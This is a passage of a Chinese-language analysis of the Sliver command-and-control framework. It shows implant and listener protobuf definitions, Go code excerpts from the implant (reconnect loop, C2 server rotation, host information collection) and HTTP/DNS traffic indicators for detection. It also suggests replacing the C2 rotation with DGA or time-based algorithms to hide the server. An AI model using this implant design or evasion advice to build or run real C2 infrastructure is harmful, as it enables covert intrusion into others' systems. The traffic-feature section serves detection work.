  repeated ImplantC2 C2 = 10;
  repeated string CanaryDomains = 11;

  bool LimitDomainJoined = 20;
  string LimitDatetime = 21;
  string LimitHostname = 22;
  string LimitUsername = 23;
  string LimitFileExists = 32;

  enum OutputFormat {
    SHARED_LIB = 0;
    SHELLCODE = 1;
    EXECUTABLE = 2;
    SERVICE = 3;
  }
  OutputFormat Format = 25;
  bool IsSharedLib = 26;

  string FileName = 27;
  bool IsService = 28;
  bool IsShellcode = 29;
}

// Configs of previously built implants
message ImplantBuilds {
  map<string, ImplantConfig> Configs = 1;
}

message DeleteReq {
  string Name = 1;
}

// DNSCanary - Single canary and metadata
message DNSCanary {
  string ImplantName = 1;
  string Domain = 2;
  bool Triggered = 3;
  string FirstTriggered = 4;
  string LatestTrigger = 5;
  uint32 Count = 6;
}

message Canaries {
  repeated DNSCanary Canaries = 1;
}

message ImplantProfile {
  string Name = 1;
  ImplantConfig Config = 2;
}

message ImplantProfiles {
  repeated ImplantProfile Profiles = 1;
}

message RegenerateReq {
  string ImplantName = 1;
}

message Job {
  uint32 ID = 1;
  string Name = 2;
  string Description = 3;
  string Protocol = 4;
  uint32 Port = 5;

  repeated string Domains = 6;
}


// [ Jobs ]  ----------------------------------------
message Jobs {
  repeated Job Active = 1;
}

message KillJobReq {
  uint32 ID = 1;
}

message KillJob {
  uint32 ID = 1;
  bool Success = 2;
}

// [ Listeners ] ----------------------------------------
message MTLSListenerReq {
  string Host = 1;
  uint32 Port = 2;
  bool Persistent = 3;
}

message MTLSListener {
  uint32 JobID = 1;
}

message DNSListenerReq {
  repeated string Domains = 1;
  bool Canaries = 2;
  string Host = 3;
  uint32 Port = 4;
  bool Persistent = 5;
}

message DNSListener {
  uint32 JobID = 1;
}

message HTTPListenerReq {
  string Domain = 1;
  string Host = 2;
  uint32 Port = 3;
  bool Secure = 4; // Enable HTTPS
  string Website = 5;
  bytes Cert = 6;
  bytes Key = 7;
  bool ACME = 8;
  bool Persistent = 9;
}

// Named Pipes Messages for pivoting
message NamedPipesReq {
  string PipeName = 16;

  commonpb.Request Request = 9;
}

message NamedPipes {
  bool Success = 1;
  string Err = 2;

  commonpb.Response Response = 9;
}

// TCP Messages for pivoting
message TCPPivotReq {
  string Address = 16;

  commonpb.Request Request = 9;
}

message TCPPivot {
  bool Success = 1;
  string Err = 2;

  commonpb.Response Response = 9;
}

message HTTPListener {
  uint32 JobID = 1;
}

// [ commands ] ----------------------------------------
message Sessions {
  repeated Session Sessions = 1;
}

message UpdateSession {
  uint32 SessionID = 1;
  string Name = 2;
}

message GenerateReq {
  ImplantConfig Config = 1;
}

message Generate {
  commonpb.File File = 1;
}

message MSFReq {
  string Payload = 1;
  string LHost = 2;
  uint32 LPort = 3;
  string Encoder = 4;
  int32 Iterations = 5;

  commonpb.Request Request = 9;
}

message MSFRemoteReq {
  string Payload = 1;
  string LHost = 2;
  uint32 LPort = 3;
  string Encoder = 4;
  int32 Iterations = 5;
  uint32 PID = 8;

  commonpb.Request Request = 9;
}

enum StageProtocol {
    TCP = 0;
    HTTP = 1;
    HTTPS = 2;
}

message StagerListenerReq {
  StageProtocol Protocol = 1;
  string Host = 2;
  uint32 Port = 3;
  bytes Data = 4;
  bytes Cert = 5;
  bytes Key = 6;
  bool ACME = 7;
}

message StagerListener {
  uint32 JobID = 1;
}

message ShellcodeRDIReq {
  bytes Data = 1;
  string FunctionName = 2;
  string Arguments = 3;
}

message ShellcodeRDI {
  bytes Data = 1;
}

message MsfStagerReq {
  string Arch = 1;
  string Format = 2;
  uint32 Port = 3;
  string Host = 4;
  string OS = 5; // reserved for future usage
  StageProtocol Protocol = 6;
  repeated string BadChars = 7;
}

message MsfStager {
  commonpb.File File = 1;
}

// GetSystemReq - Client request to the server which is translated into
//                InvokeSystemReq when sending to the implant.
message GetSystemReq {
  string HostingProcess = 1;
  ImplantConfig Config = 2;

  commonpb.Request Request = 9;
}

// MigrateReq - Client request to the server which is translated into
//              InvokeMigrateReq when sending to the implant.
message MigrateReq {
  uint32 Pid = 1;
  ImplantConfig Config = 2;

  commonpb.Request Request = 9;
}


// [ Tunnels ] ----------------------------------------
message CreateTunnelReq {

  commonpb.Request Request = 9;
}

message CreateTunnel {
  uint32 SessionID = 1;

  uint64 TunnelID = 8 [jstype = JS_STRING];
}

message CloseTunnelReq {
  uint64 TunnelID = 8 [jstype = JS_STRING];

  commonpb.Request Request = 9;
}

// [ events ] ----------------------------------------
message Client {
  uint32 ID = 1;
  string Name = 2;

  Operator Operator = 3;
}

message Event {
  string EventType = 1;
  Session Session = 2;
  Job Job = 3;
  Client Client = 4;
  bytes Data = 5;

  string Err = 6; // Can't trigger normal gRPC error
}

message Operators { 
  repeated Operator Operators = 1;
}

message Operator {
  bool Online = 1;
  string Name = 2;
}

// [ websites ] ----------------------------------------
message WebContent {
  string Path = 1;
  string ContentType = 2;
  uint64 Size = 3 [jstype = JS_STRING];

  bytes Content = 9;
}

message WebsiteAddContent {
  string Name = 1;
  map<string, WebContent> Contents = 2;
}

message WebsiteRemoveContent { 
  string Name = 1;
  repeated string Paths = 2;
}

message Website {
  string Name = 1;
  map<string, WebContent> Contents = 2;
}

message Websites {
  repeated Website Websites = 1;
}

```

## 可学习的go编程

有很多Go编程的细节可以学习。

**处理自定义协议**

implant主函数很精简，先通过自定义协议连接，再一个主函数处理连接后的操作。
```go 
for {
        connection := transports.StartConnectionLoop()
        if connection == nil {
            break
        }
        mainLoop(connection)
    }

```

连接部分精简化的代码就是这样



nextCCServer可以通过连接的次数和server的数量变换协议和server
``` 
func nextCCServer() *url.URL {
    uri, err := url.Parse(ccServers[*ccCounter%len(ccServers)])
    *ccCounter++
    if err != nil {
        return nextCCServer()
    }
    return uri
}

```

后续通过解析出来的协议再分别处理。nextCCServer的算法有点简单，自己写的话可以修改一下，用一些时间算法，dga算法等等，来达到随机化获取c2 teamserver的目的。

**map映射函数**

在接收任务进行处理的时候，通过map映射执行相关的函数



**Goroutine 和 chanel**

使用chanel传递参数，使用goroutine创建处理过程



chanel创建完成后，想像server发送指令，只需要
``` 
send <- 指令

```

即可

**获取基础信息**
```go 
func getRegisterSliver() *sliverpb.Envelope {
    hostname, err := os.Hostname()
    if err != nil {
        hostname = ""
    }
    currentUser, err := user.Current()
    if err != nil {
        // Gracefully error out
        currentUser = &user.User{
            Username: "<< error >>",
            Uid:      "<< error >>",
            Gid:      "<< error >>",
        }

    }
    filename, err := os.Executable()
    // Should not happen, but still...
    if err != nil {
        //TODO: build the absolute path to os.Args[0]
        if 0 < len(os.Args) {
            filename = os.Args[0]
        } else {
            filename = "<< error >>"
        }
    }

    // Retrieve UUID
    uuid := hostuuid.GetUUID()

    data, err := proto.Marshal(&sliverpb.Register{
        Name:              consts.SliverName,
        Hostname:          hostname,
        Uuid:              uuid,
        Username:          currentUser.Username,
        Uid:               currentUser.Uid,
        Gid:               currentUser.Gid,
        Os:                runtime.GOOS,
        Version:           version.GetVersion(),
        Arch:              runtime.GOARCH,
        Pid:               int32(os.Getpid()),
        Filename:          filename,
        ActiveC2:          transports.GetActiveC2(),
        ReconnectInterval: uint32(transports.GetReconnectInterval() / time.Second),
        ProxyURL:          transports.GetProxyURL(),
    })
    if err != nil {
        return nil
    }
    return &sliverpb.Envelope{
        Type: sliverpb.MsgRegister,
        Data: data,
    }
}

```

得到信息后，直接通过发送到相关transport实现的send chan里
```go 
connection.Send <- getRegisterSliver()

```

**测试用例**

用于工程化的一键生成、一键测试，详情可查看`_test.go`结尾的文件，这是个好习惯

## 流量特征

### http

获取公钥,访问`.txt`结尾
``` 
func (s *SliverHTTPClient) txtURL() string {
    curl, _ := url.Parse(s.Origin)
    segments := []string{"static", "www", "assets", "text", "docs", "sample"}
    filenames := []string{"robots.txt", "sample.txt", "info.txt", "example.txt"}
    curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
    return curl.String()
}

```

获取sessionid 会返回jsp结尾的uri
``` 
func (s *SliverHTTPClient) jspURL() string {
    curl, _ := url.Parse(s.Origin)
    segments := []string{"app", "admin", "upload", "actions", "api"}
    filenames := []string{"login.jsp", "admin.jsp", "session.jsp", "action.jsp"}
    curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
    return curl.String()
}

```

回显数据发送,以php结尾的uri
``` 
func (s *SliverHTTPClient) phpURL() string {
    curl, _ := url.Parse(s.Origin)
    segments := []string{"api", "rest", "drupal", "wordpress"}
    filenames := []string{"login.php", "signin.php", "api.php", "samples.php"}
    curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
    return curl.String()
}

```

poll拉取请求,以访问`.js`结尾的uri
``` 
func (s *SliverHTTPClient) jsURL() string {
    curl, _ := url.Parse(s.Origin)
    segments := []string{"js", "static", "assets", "dist", "javascript"}
    filenames := []string{"underscore.min.js", "jquery.min.js", "bootstrap.min.js"}
    curl.Path = s.pathJoinURL(s.randomPath(segments, filenames))
    return curl.String()
}

```

默认的UA以及请求流量
``` 
defaultUserAgent = "Mozilla/5.0 (Windows NT 10.0; WOW64; Trident/7.0; rv:11.0) like Gecko"

req, _ := http.NewRequest(method, uri, body)
req.Header.Set("User-Agent", defaultUserAgent)
req.Header.Set("Accept-Language", "en-US")
query := req.URL.Query()
query.Set("_", fmt.Sprintf("%d", encoderNonce))

```

### dns

  * 对于一个域名有多个5级域名以上的DNS请求，或txt请求记录
  * 一次完整的dns交互可能包含这些敏感DNS域名的字符串 `_domainkey`、`.si`、`.se`、`.b`


